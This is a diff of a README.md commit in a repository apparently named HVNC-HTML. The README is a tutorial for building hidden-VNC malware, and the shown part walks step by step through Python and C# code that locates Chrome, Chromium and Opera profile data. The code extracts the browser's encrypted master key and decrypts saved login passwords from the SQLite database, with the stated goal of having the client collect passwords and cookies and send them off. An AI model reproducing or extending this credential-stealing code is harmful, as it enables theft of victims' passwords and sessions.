

Before and after one commit to DevilBot000/HVNC-HTML, a Markdown page: README.md, the part around one of its changes. Shown at 80% size. Rendered like a GitHub page; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -810,11 +810,11 @@ Now let's look at the code for decrypting the password using the key obtained ea
 
     main()
 
-[/CODE]
-
-
-
-[CODE=python]
+
+
+
+
+[python]
 
     def decrypt_password(buffer, master_key):
     try:
@@ -825,34 +825,35 @@ Now let's look at the code for decrypting the password using the key obtained ea
         return decrypted_pass
     except Exception as e:
         return f"Error decrypting password: {e}"
-[/CODE] Skips the first 3 characters and defines characters 4 to 15 as IV. Then from the 15th character to the end it defines it as a password. Decrypts the password via AES using the key specified below.
-[CODE=python]
+Skips the first 3 characters and defines characters 4 to 15 as IV. Then from the 15th character to the end it defines it as a password. Decrypts the password via AES using the key specified below.
+[python]
 
     login_data_path
-[/CODE] Path to the database file with passwords
-[CODE=python]
+Path to the database file with passwords
+[python]
 
     connection = sqlite3.connect(login_data_path)
     cursor = connection.cursor()
- [/CODE] Connect to the database
-[CODE=python]
+ Connect to the database
+[python]
 
     cursor.execute("SELECT password_value FROM logins")
-[/CODE] Execute a query against the logins table and within it against the password_value column
-[CODE=python]
+Execute a query against the logins table and within it against the password_value column
+[python]
 
     master_key_base64 [/CODE] Key in base 64 format
-[CODE=python]
+[python]
 
     master_key = base64.b64decode(master_key_base64)
-[/CODE] Decoding the key into bytes
+Decoding the key into bytes
+
 We have looked at the example, now we will implement this in practice inside our HVNC project.
 
 First, let's expand the client so that it can collect passwords and cookies and send them along with the key.
 
 First of all, let's create the BrowserGrabber method.
 Inside the method we will specify the dictionary to the main browser folders where the file with the key is located.
-[CODE]
+
 
     Dictionary<string, string> browserPaths = new Dictionary<string, string>{
     { "Google Chrome", Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData), @"Google\Chrome\User Data ") },
@@ -860,33 +861,33 @@ Inside the method we will specify the dictionary to the main browser folders whe
     { "Chromium", Path.Combine(Environment.GetFolderPath( Environment.SpecialFolder.LocalApplicationData), @"Chromium\User Data") },
     { "Opera", Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData), @"Opera Software\Opera Stable") } }
     ;
-[/CODE]
+
 We create the main JSON object in which all information will be stored.
-[CODE]
+
 
     JObject mainJson = new JObject();
-[/CODE]
+
 Also in the foreach loop we read the contents from the file with the key
-[CODE]
+
 
     string localStateData = File.ReadAllText(localStatePath);
-[/CODE]
+
 Convert the received content to json
-[CODE]
+
 
     dynamic json = JObject.Parse(localStateData);
-[/CODE]
+
 We look for the key in the content
-[CODE]
+
 
     string encryptedKeyBase64 = json.os_crypt.encrypted_key;
-[/CODE]
+
 We decode the received key into bytes
-[CODE]
+
 
     byte[] encryptedKey = Convert.FromBase64String(encryptedKeyBase64);
-[/CODE]
+
 Remove the first 5 bytes
-[CODE]
+
 
     byte[] trimmedKey = encryptedKey.Skip(5).ToArray();
```
Also changed, not shown: other parts of README.md (+80 -82 lines).
